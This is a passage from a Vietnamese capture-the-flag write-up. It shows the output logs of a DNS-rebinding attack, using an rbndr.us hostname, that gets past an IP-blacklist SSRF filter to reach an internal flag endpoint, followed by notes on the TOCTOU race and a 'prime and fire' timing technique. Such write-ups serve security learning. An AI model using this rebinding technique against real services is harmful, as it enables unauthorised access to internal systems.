 **Kết quả (Flag)**

Sau khi chạy kịch bản trong vài chu kỳ, một trong các yêu cầu đã thành công và trả về phản hồi từ dịch vụ nội bộ chứa flag.

```
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
{"error":"something went wrong","url":"http://08080808.7f000001.rbndr.us:5001/flag"}
[+] Hoàn thành một chu kỳ. Đợi 2 giây trước khi lặp lại...
---------------------------------
[+] Giai đoạn MỒI: Làm mới cache DNS của server...
[+] Giai đoạn BẮN: Gửi 36 yêu cầu trigger liên tục...
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"error":"IP \"127.0.0.1\" not allowed"}
{"response":"sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}","status":200,"url":"http://08080808.7f000001.rbndr.us:5001/flag"}

```

Flag cuối cùng là: `sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}`

---

## Ghi chú và mẹo

- Thử thách này là một minh họa xuất sắc về cách các biện pháp bảo vệ SSRF dựa trên danh sách đen IP có thể bị thất bại do các lỗ hổng tinh vi như TOCTOU.
- DNS Rebinding vẫn là một kỹ thuật tấn công mạnh mẽ và phù hợp trong các kịch bản thực tế, đặc biệt khi các ứng dụng tương tác với các tài nguyên bên ngoài dựa trên tên miền do người dùng cung cấp.
- Việc khai thác các race condition thường không đáng tin cậy 100%. Các kỹ thuật như "Mồi và Bắn" giúp tăng đáng kể xác suất thành công bằng cách kiểm soát trạng thái của ứng dụng trước khi thực hiện tấn công.

---

# ENGLISH VERSION
